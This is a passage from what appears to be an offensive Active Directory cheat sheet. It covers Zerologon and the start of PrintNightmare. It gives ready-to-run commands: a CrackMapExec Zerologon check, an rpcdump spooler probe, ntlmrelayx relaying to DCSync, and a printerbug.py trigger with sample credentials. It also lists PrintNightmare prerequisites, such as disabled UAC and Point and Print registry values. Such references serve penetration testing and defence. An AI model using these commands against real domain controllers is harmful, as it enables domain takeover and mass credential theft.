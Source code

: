 - `CrackMapExec` \- only check
    
    ```powershell
    crackmapexec smb 10.10.10.10 -u username -p password -d domain -M zerologon
    ```
    

A 2nd approach to exploit zerologon is done by relaying authentication.

This technique, [found by dirkjanm](https://dirkjanm.io/a-different-way-of-abusing-zerologon), requires more prerequisites but has the advantage of having no impact on service continuity.
The following prerequisites are needed:

- A domain account
    
- One DC running the `PrintSpooler` service
    
- Another DC vulnerable to zerologon
    
- `ntlmrelayx` \- from Impacket and any tool such as [`printerbug.py`](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
    
    ```powershell
    # Check if one DC is running the PrintSpooler service
    rpcdump.py 10.10.10.10 | grep -A 6 "spoolsv"
    
    # Setup ntlmrelay in one shell
    ntlmrelayx.py -t dcsync://DC01.LAB.LOCAL -smb2support
    
    #Trigger printerbug in 2nd shell
    python3 printerbug.py 'LAB.LOCAL'/joe:Password123@10.10.10.10 10.10.10.12
    ```
    

### PrintNightmare

> CVE-2021-1675 / CVE-2021-34527

The DLL will be stored in `C:\Windows\System32\spool\drivers\x64\3\`.
The exploit will execute the DLL either from the local filesystem or a remote share.

Requirements:

- **Spooler Service** enabled (Mandatory)
- Server with patches < June 2021
- DC with `Pre Windows 2000 Compatibility` group
- Server with registry key `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall` = (DWORD) 1
- Server with registry key `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA` = (DWORD) 0

**Detect the vulnerability**:

- Impacket - [rpcdump](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/rpcdump.py)
    